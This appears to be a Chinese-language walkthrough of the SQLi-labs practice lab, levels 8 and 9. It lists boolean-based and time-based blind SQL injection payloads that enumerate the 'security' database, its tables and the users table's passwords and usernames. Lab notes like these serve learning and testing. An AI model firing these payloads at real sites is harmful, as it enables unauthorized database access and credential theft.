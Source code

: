 `?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>101 -- +`==>页面无回显

推断出securrity第一个表的第一个字符为e

`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>80 --+`

`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>108 --+`

`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>109 -- +`

推断出securrity第一个表第二个字符为m

...

同理推出第3,4,5,6字符，最终推出emails表

- 获取数据

`?id=1' and ascii(substr((select group_concat(password,username) from users limit 0,1),1,1))>=65--+`

#### 方法二：延时注入

给出一例：

`?id=1 and if(ascii(substr(database(),1,1))=115,1,sleep(5))--+`

## Less-9

延时注入/时间盲注：

- 猜测数据库：
  
  `?id=1' and If(ascii(substr(database(),1,1))=115,1,sleep(5))--+`
  
  第一位是 s
  
  `?id=1' and If(ascii(substr(database(),2,1))=101,1,sleep(5))--+`
  
  第二位是 e
  
  ....
  
  以此类推，数据库名是 security

- 猜测 security 的数据表：
  
  `?id=1'and If(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101,1,sleep(5))--+`
  
  - 猜测第一个数据表，得到 emails
  
  `?id=1'and If(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 1,1),1,1))=114,1,sleep(5))--+`

- 猜测第二个数据表，得到 referers

- 得到所有的数据表 emails,referers,uagents,users
